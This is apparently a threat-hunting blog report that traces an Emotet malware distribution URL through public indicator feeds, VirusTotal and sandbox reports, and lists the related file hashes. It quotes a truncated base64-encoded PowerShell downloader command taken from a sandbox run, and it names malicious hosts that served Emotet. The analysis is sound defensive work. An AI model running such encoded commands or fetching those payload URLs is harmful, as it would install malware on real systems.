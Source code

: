 ```yaml
---
layout: post
title:  "Threat Hunting Report"
description : The following are examples of how we perform Threat Hunting reporst for our clients.
tags: Threat-Hunting, IOC, any-run, virus-total, hash, powershell
---
```


> Please provide what details you are able to gather about the following URL.
> This is something we might commonly be provided by a Crimeware client as part of a standard research and mitigation request. As with our service these requests can be pretty open 
> ended.
> With that in mind go as far as you feel is required to provide a sufficient response and highlight what might need to be included in a takedown to prospect our client or their
> customers. 
> Make sure to identify if the domain or related IOCS are hacked, or setup by a malicious actor and any valid files, hashes ETC.

```ruby
https://www.actacomunicacao.com.br/provisorio/docs/mq57mhq07gy/
```

To start off on any investigation I like to just do a quick Google search to see if anyone else has looked at the same thing. A good number of times this will help speed up an investigation, additionally it provides some already timestamped and openly available information that can be shared with a provider.

## A quick search of the provided URL returns multiple resources mentioning it exactly. The best part here is these are hits on the exact URL we are looking for.

![alt text](https://Rayferrufino.github.io/assets/pic1.png "Logo Title Text 1")

## I will highlight a few of these below:

```python
https://urlhaus.abuse.ch/url/428853/
https://paste.cryptolaemus.com/emotet/2020/08/10/emotet-malware-IoCs_08-10-20.html
https://paste.cryptolaemus.com/emotet/2020/08/12/emotet-malware-IoCs_08-12-20.html
```

It would appear that the URL is possibly tied to Emotet in some way. We continue to investigate some of these public posts on the URL and quickly can find a good number of doc files posted on Urlhaus tied to the exact url. 

```python
https://urlhaus.abuse.ch/url/428853/
https://urlhaus.abuse.ch/host/www.actacomunicacao.com.br/
```

![alt text](https://Rayferrufino.github.io/assets/pic2.png "Logo Title Text 1")

## Taking the earliest posted sample as an example we are given the following:

```python
File: FILE_ET5654085637AL.doc	
MD5 70fbdde86b9ae6a733975dc0980ea712
SHA-1 bae75e0727170969890336eb60f875267ddc0e35
SHA-256 0edb0478a03da835ad18ca5571a31731a6cf1922642d5ffd2940ec40dfdbae13
```

## Searching for the file hash gets you yet another publicly posted blog mentioning it and how its tied to Emotet:

```ruby
https://paste.cryptolaemus.com/emotet/2020/08/10/emotet-malware-IoCs_08-10-20.html
```


## A quick check on Virustotal for the file also shows bit more about how the file might be used:

```ruby
https://www.virustotal.com/gui/file/0edb0478a03da835ad18ca5571a31731a6cf1922642d5ffd2940ec40dfdbae13/relations
```

![alt text](https://Rayferrufino.github.io/assets/pic3.png "Logo Title Text 1")

```ruby
https://www.virustotal.com/gui/file/0edb0478a03da835ad18ca5571a31731a6cf1922642d5ffd2940ec40dfdbae13/behavior/Lastline
```
![alt text](https://Rayferrufino.github.io/assets/pic4.png "Logo Title Text 1")

Reviewing the behavior and relationship tabs of the above report we see multiple URLs which might be an indication the file is either being dropped, reaching out to or somehow doing something with some of these.

## Online sandbox report:

```ruby
https://app.any.run/tasks/800484d8-7d39-40ef-a4ac-3ba54481696b/
```
![alt text](https://Rayferrufino.github.io/assets/pic5.png "Logo Title Text 1")

From the report we see a call to PowerShell with a long string of characters followed by a new binary being spawned.

## This is a base64 encoded block in a request like the one below:
```ruby
>> powersheLL -e JABWAEgAVQBLAFEAZgBmAHcAPQAnAEEASABEAEoAQgByAGcAYgAnADsAWwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAIgBzAEUAYABDAFUAUgBJAGAAVABZAFAAYABSAG8AdABvAGAAYwBvAEwAIgAgAD0AIAAnAHQAbABzADEAMgAsACAAdABsAHMAMQAxACwAIAB0AGwAcwAnADsAJABXAFEAUQBNAEQAcwBnAGEAIAA9ACAAJwA3ADEAMgAnADsAJABRAEwAUABF….
```

#  Static code analysis:
The PowerShell code is acting as a downloader with a hardcoded list of URLs to iterate through.

![alt text](https://Rayferrufino.github.io/assets/pic6.png "Logo Title Text 1")

## This is also seen being executed in the call graph within the sandbox report.

![alt text](https://Rayferrufino.github.io/assets/pic7.png "Logo Title Text 1")


## Taking one of the URLs from the list: 
```ruby
http://iraniansk.com/wp-content/rm1q_q6x4_l5/
```
We can see it dropped a file during the sandbox run.


## Dropped file:

```ruby
File: rm1q_q6x4_l5 (identified as emotet)
MD5 16BF0F7A0D8008AEF4FDECCD749C7830
SHA1 6AB5FE9A8CF33D8043E7FF3CF6880CA8FB375D20
SHA256 12C0DEAECAFCF3A79D6EF2097E1F0CCC7F72017D7612F45DE8AFB99943FC4875
```
## Searching for this file we find multiple public reports as well:

```ruby
https://feodotracker.abuse.ch/browse/host/74.120.55.163/
```

```ruby
https://app.any.run/tasks/800484d8-7d39-40ef-a4ac-3ba54481696b/
```


# Dynamic analysis:

## Submitting the dropped binary to a public sandbox further points to it being related to Emotet.

```ruby
https://capesandbox.com/submit/status/49440/
```
![alt text](https://Rayferrufino.github.io/assets/pic8.png "Logo Title Text 1")

![alt text](https://Rayferrufino.github.io/assets/pic9.png "Logo Title Text 1")





